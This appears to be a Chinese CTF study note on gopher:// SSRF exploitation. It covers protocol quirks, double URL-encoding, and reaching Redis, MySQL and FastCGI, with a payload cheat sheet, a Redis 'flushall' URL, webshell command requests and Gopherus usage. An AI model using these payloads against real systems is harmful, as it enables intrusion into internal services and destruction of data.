

## 一句话概括

`gopher://` 是 SSRF 里的**万能协议**：因为它不解释内容，**你把什么字节交给它，它就往 TCP 连接里写什么字节**。于是只要能构造出目标服务认识的报文，Redis、MySQL、FastCGI、SMTP 这些**非 HTTP 服务**都能被打。

代价是：报文里几乎每个特殊字符都得 URL 编码，而且会被转义两次。

## 原理

### 1. 协议格式与两个默认行为

```text
gopher://<host>:<port>/_<URL编码后的字节流>
```

| 规则 | 说明 |
|---|---|
| 默认端口 | 70 |
| Web 服务也要显式写端口 | 打 80 端口要写成 `gopher://host:80/...`，不能省略 |
| **不转发第一个字符** | 发送端 `curl gopher://127.0.0.1/abcd` → 接收端只收到 `bcd` |
| 所以用 `_` 占位 | `curl gopher://127.0.0.1/_abcd` → 接收端收到 `abcd` |

"不转发第一个字符"是历史包袱（gopher 协议原本用第一个字符表示检索类型）：**`/_` 里的下划线就是拿来被丢掉的那个字符**。

### 2. 为什么 gopher 是"万能协议"



关键在于**解释层次**：

| 协议 | 谁来决定发出去的字节 | 能打谁 |
|---|---|---|
| `http://` | curl 按 HTTP 规范自己生成「请求行 + 头 + 正文」 | 只有听得懂 HTTP 的服务 |
| `file://` | curl 读本地文件 | 只有本机文件 |
| `dict://` | 服务端按 dict 协议拼一条简单命令 | dict 服务、Redis 的简单命令 |
| **`gopher://`** | **你说了算，字节原样透传** | **任何 TCP 服务** |

`gopher://` 实际上是把 curl 降级成了一个**裸 TCP 客户端**：连上 `host:port`，把 payload 解码后的字节原样写进去，再把服务返回的字节读回来。既然"写什么"完全由你决定，那 Redis 的 RESP 协议、MySQL 的握手包、FastCGI 的 record —— **只要你手工拼得出来，就发得出去**。

### 3. URL 编码为什么非做不可

URL 里有一批**保留字符和非法字符**，直接写会破坏 URL 结构：

| 原始字节 | 不编码的后果 | 编码后 |
|---|---|---|
| `\r\n`（0x0D 0x0A） | 换行在 URL 中非法，直接截断 payload | `%0D%0A` |
| 空格 | URL 里不允许出现裸空格 | `%20` |
| 冒号 `:` | 与 `host:port` 混淆 | `%3A` |
| `?` `#` `&` | 被当作 query / fragment 分隔符 | `%3F` `%23` `%26` |
| 0x01 等二进制 | 不可打印，传输中被丢弃或变形 | `%01` |

**所以构造流程是反过来的**：先在本地拼出目标服务要求的**原始字节**，再把它**整体当作字符串做 URL 编码**，最后套上 `gopher://host:port/_`。

### 4. 为什么常常要"编码两次"

如果 payload 经过了一个**会自己做一次 URL 解码**的环节（典型的就是 Burp 的 Repeater / Intruder 在发 `application/x-www-form-urlencoded` 请求时会先解码一次），那么：

```text
第一次编码：0x0D 0x0A  →  %0D%0A
第二次编码：%0D%0A      →  %250D%250A        （% 自身被编码成 %25）
```

到服务器那一侧时，经过两次解码，还原回 `0x0D 0x0A`。**只编码一次的话，会在中间环节被提前解掉，curl 收到的就是已被破坏的 payload。**

### 5. 打非 HTTP 服务的攻击面

| 服务 | 协议 | 默认端口 | 数据格式 | 典型利用 |
|---|---|---|---|---|
| Web 服务 | HTTP/HTTPS | 80/443/8080 | HTML/JSON/XML | 内网站点访问、目录扫描 |
| 数据库 | MySQL 协议 | 3306 | 二进制协议 | 恶意 SQL → `into outfile` 写 webshell |
| 缓存 | Redis 协议 | 6379 | 文本协议 | 写 crontab / 写 SSH key / 写 webshell |
| 远程登录 | SSH | 22 | 加密二进制 | 一般打不动（有加密与握手） |
| 文件共享 | FTP | 21 | 控制+数据双通道 | 匿名登录、读取文件 |

## 利用条件

1. **有 SSRF 且 gopher 协议没被禁用**（`CURLOPT_PROTOCOLS` 未收紧）
2. **目标服务在内网可达**且**不校验来源**（Redis 无密码、MySQL 允许 root 远程等）
3. **能构造出合法报文** —— 通常借助 Gopherus 这类工具生成
4. **有回显**更好；无回显时也能打（写文件型利用不依赖回显）

## Payload 速查

| 目的 | Payload 形态 |
|---|---|
| GET 请求 | `gopher://host:80/_GET%20/path%3Fa%3Db%20HTTP/1.1%0D%0AHost%3A%20host%0D%0A%0D%0A` |
| POST 请求 | 同上，请求行改 `POST`，补 `Content-Type` / `Content-Length`，正文跟在空行后 |
| 打 Redis | `gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A` |
| 打 MySQL | 由 Gopherus 生成的整段二进制（含握手响应 + SQL） |
| 打 FastCGI | 由 Gopherus 生成的 record 序列 + PHP 文件路径与代码 |

## 完整示例

### 构造一个 gopher 发 GET 请求

第一步，写出**目标服务真正要收到的字节**（也就是一个正常的 HTTP 请求）：

```http
GET /?name=Z3r4y HTTP/1.1
Host: www.example.com

```

第二步，把这段字节整体 URL 编码，套上 gopher 前缀：

```text
url=gopher://127.0.0.1:80/_
GET /?name=Z3r4y HTTP/1.1
Host: www.example.com
```

两步 URL 编码后的形态（原文记录）：

```text
url=gopher://127.0.0.1:80/_%250D%250AGET%2520/%253Fname%253DZ3r4y%2520HTTP/1.1%250AHost%253A%2520www.example.com%250D%250A
```

看 `%25` 就知道这是**编码了两次**的结果（`%25` 解码回 `%`，再解一次才是 `0x0D`）。

### 用 Burp 生成（最省事的路子，建议直接抓包改）

笔记里记的实操步骤：

```text
1. 在 SSRF 输入框里填：gopher://内网地址:80/_
2. 打开 Burp 拦截
3. 收到的请求里，把请求体换成原始 HTTP 报文（除了这一处，头部不动的就别动）：
       GET /shell.php?cmd=ls HTTP/1.1
       Host: 内网地址
4. 选中整段，右键 → Convert selection → URL → URL-encode key characters
   连做两次
```

`URL-encode key characters` 只编码关键字符（空格、换行、`:`、`?`、`/` 等），保留字母数字，可读性比全量编码好。

### 用 PHP 手工拼（理解原理用）

```php
<?php
// 1. 拼出原始 HTTP 报文（注意：每行结尾必须是 \r\n，不是 \n）
$gopher_payload  = "GET /shell.php?cmd=ls HTTP/1.1\r\n";
$gopher_payload .= "Host: 内网地址\r\n";
$gopher_payload .= "Connection: close\r\n\r\n";

// 2. 整体 URL 编码
$encoded_payload = urlencode($gopher_payload);

// 3. 套上 gopher:// 前缀，下划线占位
$gopher_url = "gopher://内网地址:80/_" . $encoded_payload;

// 4. 交给 SSRF 入口
$result = file_get_contents($gopher_url);
echo $result;
?>
```

### 直接 IP 攻击 vs gopher + SSRF

| 特性 | 直接 IP 攻击 | gopher + SSRF |
|---|---|---|
| 攻击源 | 攻击者自己的 IP | 存在 SSRF 的服务器 IP |
| 网络路径 | 攻击者 → 目标服务器 | 攻击者 → 漏洞服务器 → 目标服务器 |
| 协议层级 | 应用层（HTTP） | 传输层（原始 TCP） |
| 隐蔽性 | 低（暴露真实 IP） | 高（藏在漏洞服务器后面） |
| 绕过能力 | 受网络策略限制 | 可能绕过防火墙、IP 白名单 |
| 攻击范围 | 可公开访问的服务 | **内网 / 受限网络的服务** |

选择原则：

- **优先直接 IP**：目标明确是 Web 服务、追求速度和稳定、不需要特殊协议功能
- **优先 gopher**：目标是**非 HTTP 服务**、需要绕过 WAF 或网络策略、需要**精确控制网络数据包**

## Gopherus：报文的自动化生成器

手工拼 MySQL 握手包或 FastCGI record 几乎不可能，直接上 **Gopherus**（Python 工具）：

```bash
python gopherus.py --help
```

```text
usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

支持的利用目标：`mysql`、`postgresql`、`fastcgi`、`redis`、`smtp`、`zabbix`、`pymemcache`、`rbmemcache`、`phpmemcache`、`dmpmemcache`。

用法就是选一个 exploit，按提示填入参数（目标主机、端口、要执行的 SQL / 要写的文件），**工具会直接把整段 `gopher://...` payload 打印出来**，粘到 SSRF 参数里即可。

```bash
python gopherus.py --exploit redis
```

一个完整的 MySQL 利用示例见 07（web359）。

## 踩坑与备注

- **换行必须是 `%0D%0A`**：如果直接用工具转，可能只得到 `%0A`（缺了回车），目标服务解析 HTTP 报文时会出问题。
- **HTTP 报文最后要再加一个 `%0D%0A`**：代表消息结束，否则服务端会一直等后续数据。
- **URL 编码尽量用大写字母**：部分 gopher 实现要求 `%0D` 而不是 `%0d`。
- **冒号要用英文冒号**：全角 `：` 会让 URL 解析直接失败。
- **GET 请求末尾要多一个换行符**：原文明确写了这一条，理由是让服务端确认请求行结束。
- **POST 请求必须保留四个头部**：`POST`（请求方法）、`Host:`、`Content-Type:`、`Content-Length:`。缺 `Content-Length` 时服务端不知道正文有多长。
- **打 Redis 时优先用 `flushall` 清场**：环境里可能残留旧数据，先清一遍再写。
- **原文中的 `172.250.250.4`、`www.example.com` 均为示例地址**，实战替换成实际目标。
- **原文附带的 CSDN 转载声明与本文无关**，已去除；如需追溯来源可搜索「SSRF 中利用 gopher 协议发送 GET/POST 请求」。
